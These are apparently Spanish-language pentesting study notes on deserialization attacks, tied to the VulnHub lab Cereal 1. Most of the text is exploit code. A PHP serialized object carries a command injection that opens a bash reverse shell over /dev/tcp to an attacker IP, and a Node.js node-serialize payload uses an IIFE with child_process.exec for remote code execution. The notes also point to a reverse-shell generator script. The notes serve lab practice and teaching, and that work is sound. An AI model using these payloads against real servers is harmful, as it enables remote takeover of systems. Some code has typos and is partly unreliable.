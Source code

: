 # Ataques de Deserialización

Tags: #Deserializacion #OWASP #Explotacion #Unserialized #IIFE

Los **ataques de deserialización** son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de **serialización** y **deserialización** de objetos en aplicaciones que utilizan la programación orientada a objetos (**POO**).

La serialización es el proceso de convertir un objeto en una secuencia de **bytes** que puede ser almacenada o transmitida a través de una red. La deserialización es el proceso inverso, en el que una secuencia de bytes es convertida de nuevo a un objeto. Los ataques de deserialización ocurren cuando un atacante puede manipular los datos que se están deserializando, lo que puede llevar a la **ejecución de código malicioso** en el servidor.

Los ataques de deserialización pueden ocurrir en diferentes tipos de aplicaciones, incluyendo aplicaciones web, aplicaciones móviles y aplicaciones de escritorio. Estos ataques pueden ser explotados de varias maneras, como:

-   Modificar el objeto serializado antes de que sea enviado a la aplicación, lo que puede causar errores en la deserialización y permitir que un atacante ejecute código malicioso.
-   Enviar un objeto serializado malicioso que aproveche una vulnerabilidad en la aplicación para ejecutar código malicioso.
-   Realizar un ataque de “**man-in-the-middle**” para interceptar y modificar el objeto serializado antes de que llegue a la aplicación.

Los ataques de deserialización pueden ser muy peligrosos, ya que pueden permitir que un atacante tome el control completo del servidor o la aplicación que está siendo atacada.

Para evitar estos ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserialización seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para corregir posibles vulnerabilidades.

A continuación se os proporciona el enlace directo a la máquina de Vulnhub donde explotamos un ‘**PHP Deserialization Attack**‘:

-   **Máquina Cereal 1**: [https://www.vulnhub.com/entry/cereal-1,703/](https://www.vulnhub.com/entry/cereal-1,703/)

## Comandos 

* PHP Deserialization Attack
* Se basa en objetos

Interceptamos la peticion en BurpSuite
```bash
❯ obj=o%3A8%22pingTest%22%3A1%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A14%3A%22192.168.68.110%22%3B%7D&ip=192.168.68.110 # Estructura del objeto original que viaja en formato serializado
❯ obj=o:8"pingTest":1:{s:9:"ipAddress";s:14:"192.168.68.110";}&ip=192.168.68.110       # La deserializamos 
	# 8 = El objeto tiene 8 caracteres 'pingTest' (o=objeto)
	# 9 = Tiene una string de 9 caracteres 'ipAddress' (s=string)
	# 14 = Tiene una string de 14 caracteres '192.168.68.110' (s=string)
```
Lo que hace el servidor es **Deserializar** e interpretar lo que estamos enviando en el objeto y con base lo que estamos enviando, se ejecute una funcion o un metodo.

Empezando con el ataque, debemos de aprovecharnos de un campo para poder mandar la data serializada con nuestra ReverShell.
```php
❯ serilaized.php                                  
	<?php 
		class pingTest{
			public $ipAddress = "; bash -c 'bash -i >& /dev/tec/192.168.68.110/443 0>&1'";
			public $isValid = True;
			public $output = "";
		}
	?>
	echo urlencode(serialized(new pingTest));
```

Para poder ver la data serializada en la consola:
```bash
❯ php serialized.php 2>/dev/null; echo 
```

Pegamos el resultado comnop se muesra a continuacion y lo mandamos por BurpSuite
```bash
❯ obj=RU5LCoMwFLzKIxTdtImxVuxHpXeQrrKJSaiB0AZf4ka8ewOFFgYGhvmtZJEuGnIht95PHpSTiODt6zkYDKuPo7MKdtbftZ4NYivIdZQ4wUHlX7bQZSCYNotgwSjB-LmkvG5oAueFYFV1hKLLeJ6i8CvEh3RWt8MczV99x-BjSBvJuvUdkD1Z0rWGlvREtg8%2C&v&ip=192.168.68.110  # Pegamos la data serializada, para que al momento de mandarla a la maquina victima la deserialice y la interprete y asi podamos tener una ReverShell
```

---

* Node Js Deserialization Attack
* [NodeJs-Deserialization attack](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) para podernos montar un servicio por el puerto 3000 y practicar 

En este caso la data que se esta enviando esta serializada, primero en urlencode y despues en base64

* Funcion que nos ayudara a serializar algo que le pasemos.
```bash
❯ serilaized.js                    # Original 
	var y = {
	rce : function(){
	require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
	 },
	}
	var serialize = require('node-serialize');
	console.log("Serialized: \n" + serialize.serialize(y));
```

**IIFE (Inmediatly Invoked Function Expression)** que nos permite  invocar o hacer la llamada inmediatamente. 

Podemos colcar unos **()** antes de la coma y ahi podriamos hacer que no llegue a la parte de serializacion y ejecute antes el comando
```bash
❯ serilaized.js                   # Debemos de colocarle el IIFE para que nos ejecute el comando 
	var y = {
	rce : function(){
	require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
	 }(),
	}
	var serialize = require('node-serialize');
	console.log("Serialized: \n" + serialize.serialize(y));
```

Para poder ver la data serializada del comando anterior en la consola:
```bash
❯ node serialized.js

# El resultado es:
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('id', function(error, stdout, stderr) {console.log(stdout) });\n }"}'
```


* Funcion para deserializar la data
```bash
❯ unserilaized.js                   # Original 
	var serialize = require('node-serialize');
	var payload = '{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('id', function(error, stdout, stderr) {console.log(stdout) });\n }"}';
	serialize.unserialize(payload);
```
En Payload debemos de cargar la data serializada, para que esta funcion me la pueda deserializar. 

```bash
❯ unserilaized.js                   # Debemos de colocarle el IIFE para que nos ejecute el comando y modificandolo 
	var serialize = require('node-serialize');
	var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'id\', function(error, stdout, stderr) {console.log(stdout) }); }()"}';
	serialize.unserialize(payload);
```

En la pagina podemos descargar la herramienta para podernos generar una ReverShell de forma serializada
```python 
❯ python2.7 nodejsshell.py <IP> <Port>

	# IP = Maquina de atacante 
	# Port = Nuestro puerto de atacante
```

El resultado lo debemos de colocar ahi:
```bash     
❯ nvim data                  # Debemos de colocarle el IIFE para que nos ejecute el comando
	{"rce":"_$$ND_FUNC$$_function(){resultado del comando anterior}()"}
```

Eso se debe de enviar en base64 
```bash
❯ cat data | base64 -w 0; echo     # Para que nos lo muestre en una unica linea y no nos muestre al final el #
```